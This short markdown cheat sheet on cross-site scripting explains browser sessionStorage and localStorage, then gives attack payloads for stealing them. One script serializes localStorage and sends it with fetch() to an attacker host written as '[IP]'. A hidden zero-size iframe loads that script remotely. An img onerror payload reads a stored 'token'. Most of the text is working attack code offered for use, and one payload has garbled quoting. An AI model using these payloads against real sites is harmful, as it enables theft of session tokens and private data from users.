 # Read User Data
- sessionStorage
	- Data lost when tab is closed
	- accessed with 'window.sessionStorage'

- localStorage
	- Data kept until deleted
	- accessed with 'window.localStorage'

### Exfil localStorage
```xss.js
let data = JSON.stringify(localStorage)

let encodedData = encodeURIComponent(data)

fetch("http://[IP]/exfil?data=" + encodedData)
```

### Remote Payload Methods

```
<iframe src=http://[IP]/xss.js height="0" width="0"></iframe>
```
```
<img src="http://[IP]/no-image!jpg" onerror="const token = localStorage.getItem("token")">
```
